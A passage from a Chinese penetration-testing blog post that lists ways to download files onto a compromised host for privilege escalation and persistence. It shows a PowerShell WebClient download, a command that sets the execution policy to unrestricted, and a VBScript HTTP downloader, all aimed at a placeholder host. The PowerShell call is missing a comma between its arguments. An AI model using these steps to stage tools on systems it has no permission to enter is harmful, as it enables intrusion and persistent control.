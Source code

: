 ```yaml
---
title: 收集整理的15种文件下载的方式
layout: post
date: "2018-03-29T01:23:11.549Z"
tags:
  - 下载
  - Windows
  - Linux
categories:
  - 收藏
  - 渗透
---
```


## 引言

在我们的渗透过程中，通常会需要向目标主机传送一些文件，来达到提权，维持控制等目的。本篇文章将会介绍 15 种下载文件的方法。



## 1 PowerShell File Download

PowerShell 是一种 winodws 原生的脚本语言，对于熟练使用它的人来说，可以实现很多复杂的功能。

在 windows 2003 之中默认支持这种脚本。

下面这两条指令实现了从 Internet 网络下载一个文件。

    $p = New-Object System.Net.WebClient
    $p.DownloadFile("http://domain/file" "C:\%homepath%\file")

下面这条指令是执行一个文件

    PS C:\> .\test.ps1

有的时候 PowerShell 的执行权限会被关闭，需要使用如下的语句打开。

    C:\>powershell set-executionpolicy unrestricted

## 2 Visual Basic File Download

在 1998 年 Visual Basic 最终标准在 windows 上确定。下面的代码可以实现下载文件，虽然它的长度比 Powershell 长多了。

    Set args = Wscript.Arguments
    Url = "http://domain/file"
    dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
    dim bStrm: Set bStrm = createobject("Adodb.Stream")
    xHttp.Open "GET", Url, False
    xHttp.Send
    with bStrm
           .type = 1 '
           .open
           .write xHttp.responseBody
           .savetofile " C:\%homepath%\file", 2 '
    end with
